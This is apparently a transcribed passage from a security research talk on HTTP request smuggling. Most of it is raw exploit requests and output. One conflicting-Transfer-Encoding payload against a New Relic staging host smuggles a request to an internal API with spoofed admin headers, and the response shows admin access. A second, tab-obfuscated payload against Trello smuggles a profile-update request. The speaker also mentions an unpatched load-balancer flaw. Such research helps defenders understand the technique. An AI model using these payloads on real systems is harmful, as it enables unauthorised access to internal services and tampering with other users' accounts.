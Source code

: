```HTTP
POST /login HTTP/1.1
Host: staging-alerts.newrelic.com 
Content-Length: 564
Transfer-Encoding: chunked
Transfer-Encoding: cow

0

POST /internal-api/934454/session HTTP/1.1
Host: staging-alerts.newrelic.com 
X-Forwarded-Proto: https
X-nr-external-service: 1
Service-Gateway-Is-Newrelic-Admin: true
Content-Length: 6
...
x=123GET...
```

```response
HTTP/1.1 200 ok  

{
"user": {
	"acount_id": 934454
	"is_newrelic_admin": true
},
	"current_accouint_id": 934454
	...
}
```
and they patched that pretty quickly  with a hotfix,  but they said that the root cause was  their F5 load balancer and I don't  think that's been patched yet, so that's  a zero-day more or less. now what we've  seen here is with request smuggling, If  you're willing to put the time in you  can often break directly into internal  systems and have a good time. but there's  also much easier and more reliable  techniques focused on attacking other  users, so that's what we're going to take  a look at next 

### Involuntary request storage
Firstly if the application has any way of persistently  storing text data, then exploitation is  really easy. on Trello which is a  popular note taking application I  smuggled a request to update my profile.
```HTTP
POST /1/cards HTTP/1.1
Host: trello.com
Transfer-Encoding:[tab]chunked
Content-Length: 4

9f
PUT /1/members/1234 HTTP/1.1
Host: trello.com
Content-Type: application/x-www-form-urlencoded
Content-Length:400

x=x&csrf=1234&username=testzzz&bio=cake
0

GET / HTTP/1.1
Host: trello.com
```